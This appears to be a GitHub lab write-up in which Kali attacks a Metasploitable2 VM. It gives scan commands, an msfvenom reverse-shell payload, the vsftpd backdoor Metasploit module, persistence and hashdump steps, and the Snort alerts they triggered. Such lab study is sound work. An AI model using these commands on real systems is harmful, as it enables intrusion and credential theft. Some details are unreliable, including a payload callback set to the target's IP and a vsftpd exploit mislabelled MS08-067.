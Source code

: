 # 🏹 Attack Simulation

This section outlines a complete offensive workflow executed from the Kali Linux attacker VM targeting the Metasploitable2 vulnerable host. The attack follows the Cyber Kill Chain model and demonstrates how reconnaissance, exploitation, and post-exploitation phases unfold in a controlled lab environment.


---

## 🔍 Reconnaissance (OSINT)

### 1. **Netdiscover**: Identified live hosts within the 192.168.101.0/24 and 192.168.100.0/24 ranges.
```bash
netdiscover -r 192.168.100.0/24  #target subnet IP
```
Explanation:

   -r: Specifies the subnet range to scan.
  
### 2. **Nmap (-sS, -A)**: Performed stealth SYN scans and full version detection to identify open ports and services on Metasploitable2.
```bash
nmap -sS -A 192.168.100.2
```
Explanation:

   -sS: Performs a TCP SYN scan (stealth scan).
   
   -A: Enables OS detection, version detection, script scanning, and traceroute.

### 3. **WhatWeb**: Detected web technologies running on Metasploitable’s HTTP service (e.g., Apache, PHP).
```bash
whatweb http://192.168.100.2
```

### 4. **Burp Suite (Passive/Active Scan)**: Intercepted and analyzed HTTP traffic for potential injection points and misconfigurations.

#### 4a. Start Burp Suite

1. On Kali Linux, open Burp Suite:
    ```bash
    burpsuite
    ```
2. Choose **Temporary Project** → Click **Next** → Start with **Burp Defaults** → Click **Start Burp**.

#### 4b. Configure Firefox to Use Burp Proxy

1. Open **Firefox ESR** (preinstalled on Kali).
2. Go to:
    ```
    Preferences → Network Settings → Settings
    ```
3. Select **Manual Proxy Configuration**:
    - HTTP Proxy: `127.0.0.1`
    - Port: `8080`
    - Check: **Use this proxy server for all protocols**
4. Click **OK**.

#### 4c. Browse to Metasploitable2 Web Interface

1. In Firefox, go to:
    ```
    http://192.168.100.2
    ```
   *(Replace with your actual Metasploitable2 IP if different)*

2. Burp Suite’s **Proxy** tab will display captured HTTP requests.


#### 4d. Analyze Requests Using Burp Tools

- **Target → Site map**  
  Shows discovered endpoints and technologies.

- **Intruder**  
  Automate testing (e.g., brute force, fuzzing).

- **Repeater**  
  Manually tweak and resend requests.

- **Scanner** (Pro only)  
  Automatically finds common vulnerabilities.

--- 

## ⚙️ Weaponization

- **msfvenom**: Created a custom reverse shell payload targeting a vulnerable service.
  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f elf > shell.elf
  ```
- **Metasploit Framework**: Loaded and configured an exploit module (e.g., exploit/unix/ftp/vsftpd_234_backdoor) to deliver the payload.

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor #discovered via nmap scan during OSINT
set RHOST 192.168.100.2
set LHOST 192.168.101.100
set PAYLOAD linux/x86/meterpreter/reverse_tcp
exploit
```
---
## 📦 Delivery & Exploitation

- **FTP Upload**: Use anonymous login on VSFTPD to upload `shell.elf`.
- **Manual Trigger**: Run the payload if access to a shell or web upload is available.
- **Meterpreter Session**: Once the shell connects back:
```bash
sessions
sysinfo
```
---
## 🛰️ Command & Control (C2)

- Maintain access using Meterpreter modules:
```bash
run persistence # Creates the reverse shell that able to reconnect back to attacker machine
screenshot
hashdump
```

- Explore the target:
```bash
ps # observe active processes on target machine
ls -la /home # observe all hidden files and permissions in /home directory on target machine 
```

---
## Rules Triggered:

| Attack Type           | Snort Rule Triggered              | Description                             |
|-----------------------|-----------------------------------|-----------------------------------------|
| Nmap SYN Scan         | `ET SCAN Nmap Scripting Engine`   | Detects common scan behavior            |
| FTP Exploit (MS08-067)| `EXPLOIT SMB ms08-067`            | Legacy Windows SMB exploit              |
| Reverse Shell Traffic | `SHELLCODE x86`                   | Detects shellcode communication         |

### Viewing Alerts:
- pfSense WebGUI → **Services > Snort > Alerts**
- Real-time visibility into scans, exploits, and reverse shell activity

---
## ✅ Summary

This simulation demonstrates:

- How attackers use common tools to discover, exploit, and control vulnerable machines.
- How **Snort IDS** detects these malicious behaviors in real time.
- How a segmented, layered lab environment (CyberCluster) supports defensive and offensive experimentation.



